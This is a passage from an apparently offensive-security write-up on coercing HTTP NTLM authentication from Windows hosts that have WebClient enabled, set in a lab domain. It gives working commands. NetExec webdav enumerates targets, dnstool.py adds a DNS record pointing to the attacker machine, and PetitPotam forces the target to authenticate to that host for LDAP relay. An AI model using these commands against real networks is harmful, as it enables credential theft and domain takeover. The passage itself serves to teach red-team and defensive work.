 The first case is relatively unlikely to happen in the day-to-day operations of a generic user at their workstation, and the second is sort of likely to happen depending on how resources in the organization are accessed. If the user is accessing a network share, WebClient is activated, meaning an attacker can coerce HTTP authentication from the device to be used as apart of an LDAP relay. Finally the third is the most interesting, since it involves taking the attack into your own hands and trying to remotely start the WebClient service.

### Exploitation - The Curious Case of DNS Resolution

We can use the NetExec module `webdav` to enumerate with domain user context if the WebClient service is enabled.

```
netexec smb 192.168.1.3 -u jdoe -p 'P@ssw0rd' -M webdav
```

![image](https://github.com/user-attachments/assets/ab7b45d3-c85c-49e5-8f36-6ae6ac8d1255)

Once the WebClient service is found on a target device, there's two different main approaches we can use to receive HTTP authentication from it, since we need to pass a WebClient connection string, with the format:

```
Hostname@80/file
```

We cannot use a direct IP address for the coercion. Because of this we have to get particularly creative when it comes to making sure the authentication comes back to our host.

#### Coercion via dnstool.py

Since every domain user by default can add DNS entries for the whole domain (Thanks Microsoft!), we can add a DNS entry that points to our attack machine, and utilize that hostname in the WebClient connection string. This can be done with `dnstool.py` as part of the krbrelayx toolkit.

```
python3 /opt/krbrelayx/dnstool.py -u lab.lan\\jdoe -p 'P@ssw0rd' -r attacker.lab.lan -a add -d 192.168.1.50 192.168.1.2
```

![image](https://github.com/user-attachments/assets/86275fce-329a-4402-b46a-2b7afc34f27f)

Now that we have a DNS entry, we can use a tool such as `PetitPotam` or `Printerbug` to reference that DNS entry in our WebClient connection string, and successfully coerce HTTP authentication from our target.

```
python3 /opt/PetitPotam.py -u jdoe -p 'P@ssw0rd' -d lab.lan attacker@80/test 192.168.1.3
```

![image](https://github.com/user-attachments/assets/7e3fbc22-b897-4eac-82f1-97033237be34)

And after sending it off, as you can see, we receive HTTP NTLM authentication!

![image](https://github.com/user-attachments/assets/2ce06702-74c3-4b7a-b077-6805cf63ac98)

#### Coercion via LLMNR
